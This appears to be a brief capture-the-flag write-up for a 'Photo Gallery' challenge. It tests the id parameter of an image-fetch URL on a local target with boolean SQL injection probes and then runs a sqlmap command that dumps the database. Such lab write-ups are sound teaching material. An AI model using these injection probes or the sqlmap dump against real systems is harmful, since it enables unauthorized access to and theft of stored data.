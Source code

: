 # Photo Gallery - FLAG1

## 0x00 Index

![](./imgs/index.jpg)

## 0x01 Check Image Source

![](./imgs/imgs.jpg)

The image link looks like injectable 

http://127.0.0.1/xxxxxxxxxx/fetch?id=1

![](./imgs/img_src.jpg)

Tried with the following

```sql
fetch?id=1 and 1=1
fetch?id=1 and 1=2
```

1=1 works but 1=2 does not and shows some error.

![](./imgs/err.jpg)

## 0x02 Blind Injection

Do it with SqlMap.

```
python sqlmap.py -u http://127.0.0.1/xxxxxxxxxx/fetch?id=1 --dump
```

![](./imgs/flag.jpg)